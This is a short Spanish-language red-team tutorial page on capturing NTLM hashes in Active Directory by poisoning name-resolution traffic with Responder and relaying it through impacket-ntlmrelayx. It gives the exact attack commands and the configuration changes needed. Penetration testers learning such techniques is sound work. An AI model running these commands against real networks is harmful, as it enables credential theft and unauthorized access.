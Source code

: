 ### 1. Obtener el Hash NTLM

Para obtener el Hash NTLM lo primero que tenemos que hacer es configurar nuestro envenenador de paquetes, el **responder**. 

Como hemos visto en el artículo de [SMB Relay](https://ajcruz15.gitbook.io/red-team/active-directory-hacking/smb-relay), **responder** viene configurado por defecto para envenenar paquetes SMB pero ahora no queremos que haga eso por lo que hay que modificarlo para que quede de la siguiente manera \(Desactivamos SMB y HTTP\):

![Configuraci&#xF3;n de responder.conf.](../.gitbook/assets/responder4.png)

Debemos preparar un documento con las IPs de los objetivos para el relay:

`echo "IP_VICTIMA" > targets.txt`

Una vez tenemos el responder configurado debemos correr a la vez el **responder** y el **impacket-ntlmrelayx**.

`sudo responder -i eth0 -rwd`

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

{% hint style="warning" %}
En los sistemas más nuevos es necesario utilizar:  
`impacket-ntlmrelayx -tf fichero.txt -smb2support`   
Ya que trabajan con la versión 2 del protocolo smb y sin esto no obtendremos nada.
{% endhint %}
